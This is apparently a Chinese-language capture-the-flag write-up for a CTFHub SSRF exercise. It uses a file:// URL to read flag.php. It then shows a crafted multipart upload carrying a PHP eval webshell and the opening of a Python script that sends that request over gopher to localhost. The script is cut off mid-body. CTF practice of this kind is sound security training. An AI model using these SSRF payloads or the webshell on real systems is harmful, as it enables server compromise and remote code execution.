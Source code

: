 上转文件出现:
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241031185023.png)

用`file协议`查看源码`?url=file:///var/www/html/flag.php`  
```php
<?php

error_reporting(0);

if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
    echo "Just View From 127.0.0.1";
    return;
}

if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
    echo getenv("CTFHUB");
    exit;
}
?>

Upload Webshell

<form action="/flag.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file">
</form>
```
先上传文件用bp抓包  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241031185715.png)  
精简后如下时我们需要通过`gopher`传入的内容
```http
POST /flag.php HTTP/1.1
Host: challenge-220cfc76fff21059.sandbox.ctfhub.com:10800

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryu3KECNhVfG0fO4mb

------WebKitFormBoundaryu3KECNhVfG0fO4mb
Content-Disposition: form-data; name="file"; filename="c.php"
Content-Type: application/octet-stream

<?php
@eval($_REQUEST['c']);
?>
------WebKitFormBoundaryu3KECNhVfG0fO4mb
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryu3KECNhVfG0fO4mb--
```
修改上一题脚本:  
```python
# 示例使用
host = "127.0.0.1"
port = 80
path = "/flag.php"
headers = {
    "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryu3KECNhVfG0fO4mb"
}
body = """------WebKitFormBoundaryu3KECNhVfG0fO4mb
Content-Disposition: form-data; name="file"; filename="c.php"
Content-Type: application/octet-stream

<?php
@eval($_REQUEST['c']);
?>
```